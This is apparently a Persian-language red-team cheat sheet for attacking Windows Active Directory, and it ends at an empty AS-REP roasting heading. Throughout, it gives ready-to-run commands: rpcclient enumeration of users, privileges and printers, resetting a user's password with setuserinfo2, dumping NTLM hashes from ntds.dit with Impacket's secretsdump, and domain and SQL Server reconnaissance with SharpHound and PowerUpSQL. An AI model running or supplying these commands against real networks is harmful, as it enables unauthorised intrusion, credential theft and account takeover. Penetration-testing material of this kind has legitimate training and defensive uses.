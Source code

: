 ### نمایش اطلاعات کاربر

```text
queryuser support
```

### نمایش کاربران

```text
enumdomusers
```

### نمایش دسترسی ها

```text
enumprivs
```

### تغییر دسترسی کاربر

```text
setuserinfo2 audit2020 23 'redteam'
```

### نمایش چاپگر ها

```text
enumprinters
```

## استخراج NTLM از فایل ntds.dit

```text
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds ntds.dit -system system -
hashes lmhash:nthash LOCAL -output nt-hash
```

## جمع آوری اطلاعات با استفاده از SharpHound

```text
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe
.\SharpHound.exe
```

## جمع آوری اطلاعات درباره Sql Server

```text
https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.ps1
. .\PowerUpSQL.ps1
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## بدست آوردن AS-REP Roast hash
